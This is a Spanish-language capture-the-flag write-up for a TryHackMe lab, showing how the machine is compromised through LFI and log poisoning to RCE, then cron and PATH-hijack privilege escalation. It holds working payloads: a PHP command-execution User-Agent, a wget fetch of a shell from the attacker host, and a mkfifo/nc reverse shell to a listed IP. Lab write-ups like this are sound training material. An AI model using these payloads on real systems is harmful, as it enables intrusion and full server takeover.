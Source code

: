 Bienvenidos nuevamente a otra sala de TryHackMe. En esta sala enumeraremos los servicios, descubriremos nuevos host y como añadirlos para que nos brinden acceso. Haremos uso de #Burp-Suite , pasaremos su seguridad utilizando #LFI ,con filtros php, para obtener credenciales en el sistema, escalaremos privilegios mediante las actividades cron para acceder al usuario y luego escalar al sistema raiz!

# Recon

Iniciamos nuestro reconocimiento utilizando __nmap__. Le diremos que escanee todos los puertos abiertos, con una tasa de paquetes de 5000, en modo sigiloso sin activar las alertas de seguridad y haciendo el escaneo mas rapido, tambien le diremos que no compruebe si el objetivo este en linea, que no resuelva los nombres del host durante el escaneo evitando que los servidores __DNS__ registren el escaneo y haciendo el escaneo mucho mas rapido, tambien que nos muestre la version del servicio, y lo resuelva todo en modo agresivo "__T4__", usamos verbose para ver el progreso del escaneo y que guarde todo el proceso en formato normal, para luego poder echarle un vistazo siempre que querramos. Ejecutaremos nuestro comando : `sudo nmap  -p- --open --min-rate 5000 -sS -Pn -n -sV -T4 -vvv IPTARGET -oN nmap`  

```ruby
Nmap scan report for IPTARGET
Host is up, received user-set (0.23s latency).
Scanned at 2023-03-27 18:52:23 EDT for 23s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

Nuestro escaneo nos muestra 2 puertos abierots, con servicios ssh y http. Alojados en distribucion Ubuntu y servidor Apache en sistema operativo Linux.

Seguimos nuestro reconocimiento, buscando posibles pistas que nos pueda brindar la pagina. Si observamos la fuente de pagina o la pagina en si, tendremos una informacion mail de contacto, terminada en "__mafialive.thm__". SI intentamos navegar a este enlance, no nos dara respuesta y quedara cargando. En estos casos, tendremos que agregar el enlance con la IP del servidor para poder acceder con exito. Para ello, utilizaremos `sudo nano /etc/hosts` y pegaremos la IP seguido del enlance al que queremos acceder.

> IPTARGET mafialive.thm

Una vez agregado, podremos acceder al sitio web.

# Enumeration

La enumeracion es clave, y si que es cierto!. Utilizaremos la herramienta __gobuster__ para enumerar directorios ocultos dentro del sitio web. Ejecutaremos `gobuster dir -u http://mafialive.thm -w /usr/share/wordlists/seclists/Discovery/Web-content/Common.txt`

```ruby
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://mafialive.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/04/24 16:30:43 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 59]
/robots.txt           (Status: 200) [Size: 34] ---> 'directorio oculto'
/server-status        (Status: 403) [Size: 278]
Progress: 4704 / 4714 (99.79%)
===============================================================
2023/04/24 16:32:30 Finished
```

Obtenemos el directorio "/robots.txt", es un archivo de texto que se encuentra en la raíz de un sitio web y que se utiliza para comunicar a los robots de los motores de búsqueda qué partes del sitio web deben ser indexadas o no.

En este caso, al navegar hacie el, podremos ver otro directorio que nos lleva a otro enlance donde hay un boton "/test.php"

# Exploit

Para esta tarea, haremos uso de la vulnerabilidad #LFI (__Local FIle Inclusion__). Con esta vulnerabilidad, podremos abusarnos y enumerar informacion como credenciales, base de datos, archivos de configuracion, entre otros. Siempre que querramos utilizar esta tecnica, es muy recomendable mirar el enlance y que contenga "test.php?view=", asi podremos ejectuar codigo malicioso dentro del enlance.

Utilizaremos filtros php para poder leer la 2da flag de la sala. El filtro que utilizaremos, convertira la respuesta en codigo base64 `pHp://FilTer/convert.base64-encode/resource=/var/www/html/development_testing/test.php`

Para decodificarla utilizamos `echo "RESPUESTA" | base64 -d`.

Podremos ver las credenciales utilizando `http://mafialive.thm/test.php?view=/var/www/html/development_testing//..//..//..//..//etc/passwd`

Ya tendremos un usuario : `archangel`

Ahora que sabemos que es vulnerable a #LFI podremos hacer uso de #LFI2RCE
que se utiliza para aprovechar una vulnerabilidad de inclusión de archivos locales (__LFI__) en una aplicación web y lograr la ejecución remota de código (__RCE__) en el servidor afectado.
 Lo que nos permite lograr la ejecución remota de código en el servidor afectado.

Para inicar nuestro exploit, inciaremos #Burp-Suite e interceptaremos en el siguiente enlace`http://mafialive.thm/test.phpview=/var/www/html/development_testing//..//..//..//..//etc/passwd`
Enviaremos la respuesta al Repeater, modificaremos el agente de usuario y GET, para ejecutar codigo malicioso y transportar nuestra shell. Esta modificacion, nos permitira utilizar la terminal dentro de su sistema, asi podremos transportar nuestro script malicioso y obtener una respuesta en nuestra maquina atacante. Abrimos un servidor python dentro del directorio donde tengamos nuestra __reverse-shell__ : `python3 -m http.server 80` y modificamos nuestro __Burp-Suite__ :

```ruby
GET:/test.php?view=/var/www/html/development_testing//..//..//..//..//var/log/apache2/access.log&cmd="COMMAND-HERE" HTTP/1.1

USER-AGENT: <?php system($_GET['cmd']); ?>

Resultado final :

GET: /test.php?view=/var/www/html/development_testing//..//..//..//..//var/log/apache2/access.log&cmd=wget%20http://LHOST:80/rev.php HTTP/1.1

USER-AGENT: <?php system($_GET['cmd']); ?>
```

Luego, nos pondremos en escucha `nc -nvlp LPORT` y nos dirigimos donde almacenamos nuestra shell http://mafialive.thm/rev.php

Upgradeamos nuestra terminal `python3 -c 'import pty;pty.spawn("/bin/bash")'`

# Priv. Escalation

Para escalar privilegios, listaremos las actividades cron `cat /etc/crontab`
```ruby
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
*/1 *   * * *   archangel /opt/helloworld.sh
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```

Nos muestra que el usuario archangel tiene privilegios en un script alojado en /opt llamado "helloworld.sh". Para escalar al usuario archangel, abriremos otra terminal en nuestra maquina atacante y nos pondremos en escucha con un puerto diferente `nc -nvlp 3333`
Luego, suplantaremos el script de archangel por una reverse shell nuestra. Para ello, ejecutaremos un echo y que se sobreescriba el contenido de "helloworld.sh" `echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.2.121 3333 >/tmp/f" > helloworld.sh`.

Ahora tan solo esperamos unos minutos y ya tendremos nuestra respuesta con usuario archangel. Nuevamente upgradeamos nuestra terminal `python3 -c 'import pty;pty.spawn("/bin/bash")'`

Para escalar privilegios al sistema raiz, listaremos con __ls__ y podremos ver un directorio nombrado "secret". Luego de cambiar de directorio listaremos nuevamente `ls -lah` que nos mostrara los permisos de cada archivo, en el cual hay un "__backup__" que tiene permisos __root__. 
Para poder abusarnos y escalar al sistema raiz, tendremos que dirigirnos al directorio __/tmp__, luego crearemos una instancia shell en Bash con el indicador "__-p__" que activa el modo privilegiado  __/bin/bash__ utilizando echo, le daremos permisos al archivo para que pueda ejecutarse y luego modificaremos la variable del entorno __$PATH__ para ejecutar el archivo "__backup__" y generar una shell con usuario root!.

Los pasos a seguir :

> `cd secret`--->  Cambiamos directorio /secret
> `ls -la` --->  Listamos permisos
> `./backup` ---> Ejecutamos backup
> `cd /tmp` ---> Cambiamos directorio /tmp
> `echo '/bin/bash -p' > cp` ---> Creamos un archivo "cp" con instancia en /bin/bash privilegiada
> `chmod +x cp` ---> Le daremos permisos de ejecucion
> `ls -la | grep cp` ---> Listamos para corroborar que se creo el archivo
> `export PATH=/tmp:$PATH` ---> Modificamos la varible del entorno a /tmp
> `echo $PATH`  ---> Corroboramos que fue existoso
> `cd home/archangel/secret` ---> Cambiamos de directorio 
> `./backup` ---> Ejecutamos backup